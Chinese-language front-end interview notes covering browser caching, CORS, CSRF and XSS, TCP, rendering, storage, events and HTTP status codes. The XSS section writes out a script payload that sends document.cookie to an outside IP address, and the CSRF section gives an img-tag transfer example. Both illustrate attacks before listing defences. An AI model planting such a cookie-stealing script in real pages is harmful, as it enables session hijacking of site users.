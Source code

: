 # 浏览器

### 问题一 ：前端性能优化 

#### 浏览器缓存
    合理运用浏览器缓存可以减少服务器压力，提高网页响应速度,浏览器会根据响应header里的缓存相关字段来设置缓存，浏览器缓存分为强缓存和协商缓存，优先强缓存
    强缓存:强制使用缓存 通过响应头 Cache-Control：（private,public,no-cache,mag-age=0,no-store）字段控制  如果传了no-cache 证明需要使用协商缓存
    协商缓存:每次使用前需要和服务器协商一下是否使用缓存，服务器通过响应头（Etag：1）决定是否应用协商缓存， (以后每次请求 都会在头里带上If-None-Match:1) 
    如果返回304 继续使用缓存，如果服务器数据已更新（修改Etag值），重新返回200 和新的responseBody数据 替换缓存. 
#### 图片
    使用精灵图 减少图片资源，可以使用图片懒加载
#### 压缩
    使用gzip压缩服务返回的数据 请求头设置（Accept-Encoding: GZIP, Deflate） 服务器 设置响应头Content-Encoding: GZIP

### 问题二 ：对跨域的理解和解决
    浏览器出于安全考虑，一个源的网站不允许与另一个源的网站交互，同源即 协议 主机 端口都相同 执行脚本的时候会检测是否同源ajax不同源的会被拦截
    跨域资源嵌入是可以的  <img> <script> <link> <iframe>

    1.通过后台响应头设置允许跨域 
    2.通过nginx 监听同一端口  通过/api 路径来区分不同服务的访问

### 问题三 ：csrf和xss攻击理解和预防
    csrf 利用浏览器信任 统一domain下的请求，会携带cookie  a打开银行网站,登录后没关闭此窗口，然后打开了含有攻击性的网站,网站内有<img src='http://转账代码'> 头中会携带cookie
    预防 ：1.数据安全性高高的避免使用 get请求 ，2.用token认证  3.对接口加验证码校验
    xss 嵌入恶意的js代码然后获取用户cookie  比如博客评论 在内容里嵌入<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script> 我的服务就拿到了cookie
    预防：1.过滤特殊字符  2. 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。

### 问题四 tcp 连接的三次握手为什么不能改成2次
    考虑到client A 请求与服务B建立连接,由于网络原因这次报文一定时间内没到达B ，A又发起了一次连接现在开始传数据没传完后关闭，一开始那次请求，到达了B ,B现在发送确认请求，
    然后一直等着A 来发送数据，A本身已经不想发送数据了，这样造成了服务资源浪费。
### 问题五 简述tcp连接3次握手过程
    第一次握手，客户端主动连接服务器，发送初始序列号'seq =x','SYN = 1'同步标志 进入SYN_SEND同步发送状态
    第二次握手，服务器收到消息后 发送确认同步标志 'SYN=1'和确认标志'ACK=1',并发送自己的序列号'seq=y'和客户端确认序列'ack=x+1' 进入同步接收'SYNC_RECV'状态
    第三次握手，客户端接收后 发送确认标志 'ACK=1'和自己的序列号'seq=x+1'与服务器确认号'ack=y+1'进入建立连接状态，服务器收到后也进入连接状态 
### 问题五 简述tcp和udp的区别
   TCP：                                                                        UDP：
   面向连接，可以传输相对较大数据                                                  无连接，可以传输的数据相对较小
   使用流量控制，拥塞控制保证可靠                                                  不使用流量控制和拥塞控制，尽最大努力交付
   保证传输顺序                                                                   不保证传输顺序
   提供校验和，确认应答，流量控制，拥塞控制 超时重传，序列号，连接管理       
   适用于可靠传输，文件传输                                                        应用于直播，网络电话，视频会议 
### 问题六 简述tcp粘包解决方案
   粘包 服务端会将间隔时间较小连续发送的包粘起来组成一个大包 
   解决：将每次传输的消息分为消息头和消息体，消息头包含这次传输的总长度，服务端解析

### 问题七 浏览器渲染过程
   自上而下先解析<html>形成'DOM Tree'
   如果解析到<Link><Style>解析css 形成'CSS Tree' html和css解析开始并行解析
   遇到<Script>停止文档解析 开始解析js 
   'Dom Tree 和CSS Tree'生成后，将两者结合布局，计算大小位置等,生成'render Tree'
   根据计算好的信息，调用paint ，将内容显示在屏幕上
### 问题八 重绘 回流
   重绘：'render tree'中一些影响外观，但是不影响布局的属性改变，比如bgc-color，整棵树不需要重新构建
   回流： 布局，元素尺寸大小改变，需要重新绘制整棵树，就是回流，页面第一次加载就是回流
### 常见的兼容性问题
   浏览器由于版本不同，内核不同，导致最后渲染出来的的结果有不同，通常使用normalize抹平样试差异 
   默认边距也可能不同
   ie4-8 不支持css3 opacity属性，可以通过css filter来设置
   ie4-8 不支持媒体查询，不支持html5新标签 
   ie4-8 window.event.returnValue =false 阻止默认行为      window.event.cancelBubble = true 防止事件冒泡
   webkit内核 event.preventDefault()                      event.stopPropagation()
### 浏览器默认行为（直接在处理函数中加return false也会阻止默认行为）
    <a href="">会默认跳转地址 通过监听事件 阻止默认行为 就不能跳转了
    <input> 获得焦点后 敲击键盘会自动输入 阻止后 键盘输入无效
    type为submit的input 或者<button>都会触发表达提交，阻止后不提交
### 浏览器本地存储 
    localStorage 存储大约5m大小 永久存储除非删掉
    sessionStorage 存储大约5m大小 关闭浏览器就是失效
    cookie 存储大约4k 不设置过期时间的话 关闭浏览器会失效
    session 存储在服务端 通过服务器设置 一般会以键值对存储在cookie中
    下次请求浏览器会自动带上sessionid去服务器，服务器自动解析sessionid，
    获取session 通过session获取session存储的信息
### 事件委托机制
    由于事件默认是向上冒泡的，操作子盒子的事件可以写在父盒子上，让父盒子去执行
    比如ul 下面多个li 不需要给每个li都设置点击事件，父盒子设置设置点击事件，
    点击子盒子也可以拿到子盒子的标签。
### http状态码
    200 ok
    204 ok 无内容返回
    301：永久重定向；
    302：临时移动，可使用原有URI；
    304：资源未修改，可使用缓存；
    400 服务器无法解析客户端请求
    401 需要请求身份认证
    403 服务器拒绝执行此请求
    404 服务器找不到客户请求资源
    500 服务器内部错误
    502 网关出问题
    503 服务器挂了

### 浏览器 history对象的方法和属性
    length      返回浏览器历史列表中的URL数量
    back()      加载 history 列表中的前一个URL
    forward() 加载 history 列表中的下一个URL
    go()         加载history列表中的某个具体页面。